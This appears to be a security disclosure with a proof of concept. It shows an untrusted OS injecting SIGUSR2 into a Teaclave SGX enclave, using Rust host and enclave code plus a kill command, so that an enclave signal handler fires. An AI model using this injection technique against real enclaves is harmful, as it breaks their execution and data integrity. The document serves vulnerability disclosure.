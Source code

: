 # teaclave
We demonstrate an attack on teaclave that enables an untrusted operating system to arbitrarily inject signals triggering enclave signal handlers. This can be used to compromise the execution and data integrity of the enclave. 

Build and run the program below in Teaclave. 

```jsx
// untrusted code:
fn main() {
    let enclave = match init_enclave() {
        Ok(r) => {
            println!("[+] Init Enclave Successful {}!", r.geteid());
            r
        },
        Err(x) => {
            println!("[-] Init Enclave Failed {}!", x.as_str());
            return;
        },
    };
    let handle = thread::spawn(move || {
        let mut retval = 0usize;
        let result = unsafe {
            attack__init_enclave(enclave.geteid(),
                                 &mut retval);
        };
        println!("[+] init returned value (1337)");
        // enclave.destroy();
    });
    println!("now we do nothing in untrusted app code ...");
    while true {
    }
}

// enclave:
fn test() {
    println!("sig handler was called");
}

#[no_mangle]
pub extern "C" fn attack__init_enclave() -> size_t {
    println!("hello from enclave");

    println!("registering signal handler...");
    register(SIGUSR2, test).unwrap();
    println!("busy waiting in enclave");
    let s = time::Duration::new(5, 0);
    println!("returning...");
    
    while true {    
   }
    
    return 1337;
}
```
Then, inject SIGUSR2 to the enclave process using the `kill` utility from outside the enclave. This triggers the handler in the enclave and prints `sig handler as called`.

As a simplification in our PoC, we busy wait in the enclave to wait for the signal injection. However, this is simply for convenience and can be eliminated for an end-to-end attack.